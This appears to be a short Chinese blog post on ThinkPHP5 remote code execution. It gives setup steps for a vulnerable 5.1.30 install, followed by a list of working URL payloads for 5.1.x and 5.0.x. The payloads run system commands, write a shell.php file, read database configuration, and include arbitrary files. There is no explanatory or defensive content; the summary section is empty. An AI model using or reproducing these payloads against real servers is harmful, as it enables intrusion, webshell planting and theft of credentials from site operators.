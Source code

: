 # 原创
：  ThinkPHP5 远程代码执行

# ThinkPHP5 远程代码执行

#### 这里写目录标题

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think tpdemo

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.6.0",
    "topthink/framework": "5.1.30"
},

```

> 
然后执行 `composer update`


## 漏洞利用

> 
Payload


```
5.1.x
?s=index/\think\Request/input&amp;filter[]=system&amp;data=pwd
?s=index/\think\view\driver\Php/display&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\template\driver\file/write&amp;cacheFile=shell.php&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\Container/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id
?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id
5.0.x
?s=index/think\config/get&amp;name=database.username # 获取配置信息
?s=index/\think\Lang/load&amp;file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&amp;file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id

```
